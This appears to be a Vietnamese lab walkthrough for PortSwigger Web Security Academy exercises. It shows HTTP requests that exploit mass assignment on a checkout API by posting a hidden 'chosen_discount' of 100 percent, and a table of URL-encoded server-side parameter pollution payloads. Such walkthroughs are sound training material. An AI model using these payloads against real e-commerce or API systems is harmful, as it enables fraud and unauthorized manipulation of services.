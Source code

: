 ```http
GET /api/checkout HTTP/2
Host: 0afa007d04d4c5a8815239e1005f002a.web-security-academy.net
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{
  "chosen_discount":{
    "percentage":0
  },
  "chosen_products":[
    {
      "product_id":"1",
      "name":"Lightweight \"l33t\" Leather Jacket",
      "quantity":1,
      "item_price":133700
    }
  ]
}
```
- Gửi các **request** trên tới **Repeater**
- Ta thấy có key `"chosen_discount"` biểu thị giảm giá món hàng được bao nhiêu
- Thử gửi **POST request checkout** kèm với `"chosen_discount"` với `"percentage":100`

```http
POST /api/checkout HTTP/2
Host: 0afa007d04d4c5a8815239e1005f002a.web-security-academy.net
...
{
  "chosen_products":[
    {
      "product_id":"1",
      "quantity":1
    }
  ],
  "chosen_discount":{
    "percentage": 100
  }
}
```
- Thanh toán thành công khi giảm giá `100%`
- Ứng dụng không kiểm tra chặt số dư của người dùng

### Lab: Exploiting server-side parameter pollution in a query string

| Kỹ thuật             | Payload               | Mục tiêu                               |
| -------------------- | --------------------- | -------------------------------------- |
| Truncation           | `%23foo`              | Cắt bỏ các tham số sau                 |
| Inject invalid param | `%26foo=xyz`          | Chèn tham số không hợp lệ              |
| Inject valid param   | `%26email=test@x.com` | Chèn tham số hợp lệ để khai thác logic |
| Override             | `%26name=admin`       | Ghi đè tham số chính                   |
